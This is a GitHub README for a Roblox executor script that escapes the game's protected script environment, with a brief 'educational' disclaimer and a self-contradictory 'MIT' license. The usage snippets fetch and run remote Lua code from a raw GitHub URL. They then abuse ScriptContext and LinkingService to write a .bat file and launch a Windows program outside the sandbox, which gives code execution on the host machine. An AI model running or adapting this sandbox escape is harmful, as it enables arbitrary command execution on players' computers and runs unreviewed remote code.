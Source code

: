 # Education and Vulnerability Fix Purposes Only!

This repository is created for **educational purposes** and to help developers fix vulnerabilities in their code. The tools and scripts provided here are intended for use in **secure environments** only.

Currently, this is made to bypass **ENV** that are protected from vulnerabilities like `game:GetService("ScriptContext"):SaveScriptProfilingData` and `game:GetService("LinkingService"):OpenUrl`.

# Usage

To use this script, simply execute the following code in your Roblox executor:

```Lua
local bypassed_env, why, why_full = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()
```

Full example:
```Lua
local bypassed_env, why, why_full = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()

if why ~= "Failed" and why ~= "UnSupported" then
    local L, S = bypassed_env.game:GetService("LinkingService"), bypassed_env.game:GetService("ScriptContext")
    L:OpenUrl(S:SaveScriptProfilingData([[START C:\WINDOWS\system32\notepad.exe]], "lol.bat"))
elseif why_full ~= nil then
    print(why_full)
else
    print(why)
end
```

## Disclaimer

By using this code, you are fully responsible for your actions. The author does not take any responsibility for any misuse or consequences resulting from the use of this code.

This project is **not** intended for malicious activities. It is solely designed to **educate** and **assist in fixing vulnerabilities** in a safe, responsible, and ethical manner.

Please ensure that you are in full compliance with all applicable laws and guidelines in your jurisdiction before using any code from this repository.

# License

This project is licensed under the **MIT License** with the following additional restriction:

## Terms:

- **Attribution**: You must give appropriate credit to the original author(s), provide a link to the license, and indicate if changes were made. You may do this in any reasonable manner, but not in any way that suggests the author(s) endorse you or your use.
- **Non-Commercial**: You may not use the material for commercial purposes. **Please do not sell the code or use it to create products or services that are sold.**
- **ShareAlike**: If you modify or build upon the work, you must distribute your contributions under the same license.

For more details, see the full [MIT License](https://opensource.org/licenses/MIT).
